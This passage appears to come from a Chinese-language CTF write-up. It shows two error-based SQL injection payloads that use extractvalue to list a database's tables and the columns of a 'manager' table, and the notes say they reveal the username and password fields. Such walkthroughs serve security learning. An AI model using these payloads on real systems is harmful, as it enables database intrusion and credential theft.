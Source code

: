  ```bash
  ' and extractvalue(1,concat(0x5c,(select group_concat(distinct table_name) from information_schema.tables where table_schema=database())))-- 
  ```

  ![ctf-20180416214713985](/images/posts/ctf/ctf-20180416214713985.png)

  选择`manager`表

- 查属性名

  ```bash
  ' and extractvalue(1,concat(0x5c,(select group_concat(distinct column_name) from information_schema.columns where table_schema=database() and table_name='manager')))-- 
  ```

  ![ctf-20180416215026690](/images/posts/ctf/ctf-20180416215026690.png)

  终于看到username和password了
